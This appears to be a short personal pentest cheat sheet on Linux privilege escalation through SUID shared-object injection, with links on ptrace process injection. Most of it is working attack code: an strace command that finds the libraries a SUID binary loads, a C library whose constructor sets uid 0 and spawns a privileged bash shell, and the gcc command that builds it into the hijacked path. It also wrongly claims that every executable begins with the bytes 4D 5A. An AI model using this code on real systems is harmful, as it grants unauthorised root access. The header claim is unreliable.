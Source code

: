 see: [[../Buffer Overflow/Cheat Sheet]]

The hex value for an executable is always "4D 5A". 

ptrace injection: http://phrack.org/issues/59/12.html
https://0x00sec.org/t/linux-infecting-running-processes/1097
https://medium.com/@jain.sm/code-injection-in-running-process-using-ptrace-d3ea7191a4be

look what files a binary load

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
ltrace
```



lib code

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

create binary
```bash
gcc -shared -fPIC /home/user/tools/suid/libcalc.c -o /home/user/.config/libcalc.so 
```
